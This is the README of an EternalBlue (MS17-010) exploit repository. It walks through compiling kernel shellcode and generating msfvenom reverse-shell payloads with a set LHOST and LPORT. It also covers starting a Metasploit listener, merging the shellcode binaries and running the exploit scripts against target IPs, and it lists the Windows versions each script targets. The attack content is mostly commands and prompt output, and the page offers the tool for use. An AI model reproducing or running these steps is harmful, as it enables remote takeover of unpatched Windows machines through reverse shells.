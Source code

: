 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

This has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64) 

However the exploit included in this repo also includes the Windows 8/Server 2012 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010

## Targets:

eternalblue_exploit7.py:
```
Windows Server 2008 & R2
Windows Server 2012 & R2 (x86)
Windows Server 2016 (x64)
Windows Vista
Windows 7
```

eternalblue_exploit8.py:
```
Windows 2012 R2 x64
Windows 8.1 x64
Windows 10 Pro Build 10240 x64
```

eternalblue_exploit10.py:
```
Windows 2012 R2 x64
Windows 8.1 x64
Windows 10 Pro Build 10240 x64
```

## Generate Shellcode (Manually):

Assemble kernel shellcode with nasm:
```
nasm -f bin shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```
Generate a binary payload with venom:
```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.123 --platform windows -a x86 -f raw -o sc_x86_payload.bin
Saved as: sc_x86_payload.bin
```
Concentrate it:
```
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
```



## Merging binaries (x86 and x86_64):
```
python shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

## Setting up listener (Manually):
```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST x.x.x.x
set LPORT xxx
exploit -j
```

## [[: not found (Error)

If your got this issue:
```
./listener_prep.sh: 18: [[: not found
./listener_prep.sh: 59: [[: not found
```

Change you shell to bash shell:

```
bash
```

